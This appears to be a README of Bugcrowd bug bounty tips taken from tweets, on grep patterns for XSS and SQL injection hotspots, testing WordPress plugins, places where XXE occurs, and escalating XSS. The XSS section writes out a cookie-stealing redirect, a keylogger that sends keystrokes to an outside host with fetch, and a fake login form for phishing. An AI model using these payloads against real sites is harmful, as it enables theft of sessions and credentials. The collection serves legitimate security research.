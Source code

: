 # Bugcrowd Tip Jar 💡

A collection of one-off bug bounty wisdom nuggets to help you level up. 🚀

![header](bc-tipjar-min.png)

## More complex = Less Secure

Source: https://twitter.com/Bugcrowd/status/1352126283505922049

```
When hunting for bugs, look for features that are complex. As a rule of thumb:

More complex = less secure.
```

## Grep for Code Analysis

Source: https://twitter.com/Bugcrowd/status/1349525327811231745

```
If you're hunting for low-hanging bugs in source code, grep and regex can help you to identify hotspots. For example, you might find basic rXSS in PHP with something like this:

grep -r "echo.*\$_\(GET\|REQUEST\|POST\)" .

Or to uncover potential SQL injection you could try:

grep -r "SELECT.*\\.\\ \\$" .

It will still take some manual work, but this can be a good way to focus your attention on the most obvious weak points.

To take this technique to the next level, checkout gf by tomnomnom: https://github.com/tomnomnom/gf.

For some more tasty regex ideas, checkout the [Trufflehog regexes](https://github.com/dxa4481/truffleHogRegexes/blob/master/truffleHogRegexes/regexes.json).
```

## Wordpress Plugins

Source: https://twitter.com/Bugcrowd/status/1347015120287916032

```
Found a Wordpress site? The easiest place to find bugs is in the plugins.

1. Find the installed plugins with WPScan
2. Set up your own WP instance and install the same plugins
3. Hack your own instance
4. Report your bugs!

The most common bug you'll find with this method is XSS
```

## Common XXE Weakpoints

Source: https://twitter.com/Bugcrowd/status/1342184648856616972

```
XXE's are still quite common, and they're usually a P1! 
Here are places that you can look for them:

1. Uploading Open XML documents such as MS Offics docs (docx, xlsx, pptx). They're all just zip files filled with XML files. If these documents get parsed on the server-side, there's a chance that they will also parse external entities within those files.

2. Functionality that parses RSS feeds (they're XML too!)

3. Functionality that parses HTML (for example, converting HTML to PDF)

4.  Functionality that parses sitemap.xml files.

5. SAML requests.

6. Content-Type with application/json can also be replaced with application/xml. Many parsers support that.

7. SVG files (if they get parsed in some way on the server)
```

## Escalating XSS

Source: https://twitter.com/Bugcrowd/status/1339417608169222145

```
Here are a few ways to make the most of an XSS.

1. Grab the victim's cookies by redirecting to an attacker's server and appending the cookie value, e.g. document.location='bugcrowd.com/?'+document.cookie

2. Perform a sensitive action as the victim user (such as changing their password or email address). Having an XSS allows you to bypass SOP and Anti-CSRF mechanisms. See here for some payloads + inspiration: https://github.com/hakluke/weaponised-XSS-payloads

3. Plant a JavaScript keylogger (from https://github.com/swisskyrepo/PayloadsAllTheThings)
<img src=x onerror='document.onkeypress=function(e){fetch("http://bugcrowd.com/?k="+String.fromCharCode(e.which))},this.remove();'>

4. Redress the window with a fake HTML login form to phish credentials: document.body.innerHTML = "<form action='https://bugcrowd.com'><input type='text' value='email' name='email'><input type='password' value='password' name='password'><input type='submit'></form>"
```
